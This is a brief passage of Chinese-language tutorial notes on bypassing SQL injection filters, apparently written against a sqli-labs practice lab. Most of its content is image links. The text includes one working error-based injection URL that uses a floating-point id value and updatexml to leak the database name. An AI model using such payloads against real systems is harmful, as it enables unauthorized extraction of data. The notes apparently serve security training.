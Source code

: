![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675394309880-6391156e-1ca0-4a2e-ab68-c7db1721a58d.png)

为了闭合后面的引号，可以使用如下语句

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675394368928-8ad63fa7-3eff-4e1a-98b4-a7bf3a18b66e.png)

浮点数绕过实战

```sql
http://d16.s.iproute.cn/Less-27/?id=999.0'and(updatexml(1,concat(0x7e,database(),0x7e),1))||'1
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675394961118-edca890a-6404-4530-9ab2-aa18b26b9b7e.png)
